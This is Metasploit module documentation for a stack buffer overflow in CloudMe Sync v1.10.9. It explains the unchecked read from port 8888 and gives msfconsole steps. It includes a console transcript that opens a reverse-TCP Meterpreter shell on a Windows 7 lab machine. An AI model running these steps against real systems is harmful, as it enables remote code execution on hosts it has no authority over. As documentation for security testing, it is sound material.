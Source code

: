 ## Description

This module exploits a buffer overflow vulnerability found in [CloudMe Sync v1.10.9](https://www.cloudme.com/downloads/CloudMe_1109.exe).

## Vulnerable Application

`CloudMe.00564B00` sets up a buffer that is intended to take up 1048 bytes on the stack to read in data from port 8888. The CloudMe function then passes a pointer to the stack buffer and a max size to `Qt5Core._ZN9QIODevice4readEPcx`.

![alt text](https://user-images.githubusercontent.com/40177151/44545528-f21f0280-a6da-11e8-898b-edd0a17e0d10.png "CloudMe.00564B00")

The call to `Qt5Core._ZN9QIODevice4readEPcx` shows the pointer and the max size arguments passed in by `CloudMe.00564B00`.
![alt text](https://user-images.githubusercontent.com/40177151/44545559-09f68680-a6db-11e8-8a0b-36466dafd21e.png "Qt Read Args")

Because neither functions check the max size against the actual amount of space allocated on the stack, the program writes past the buffer's allocated space and allows for arbitrary code execution.

## Verification Steps
  1. Install CloudMe for Desktop version `v1.10.9`
  2. Start the applicaton (you don't need to create an account)
  3. Start `msfconsole`
  4. Do `use exploit/windows/misc/cloudme_sync`
  5. Do `set RHOST ip`
  6. Do `set LHOST ip`
  7. Do `exploit`
  8. Verify the Meterpreter session is opened

## Scenarios

### CloudMe Sync client application on Windows 7 SP1 x86

```
msf > use exploit/windows/misc/cloudme_sync 
msf exploit(windows/misc/cloudme_sync) > set RHOST 172.16.40.148
RHOST => 172.16.40.148
msf exploit(windows/misc/cloudme_sync) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/misc/cloudme_sync) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/misc/cloudme_sync) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (179779 bytes) to 172.16.40.148
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.148:57185) at 2018-02-19 12:35:21 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
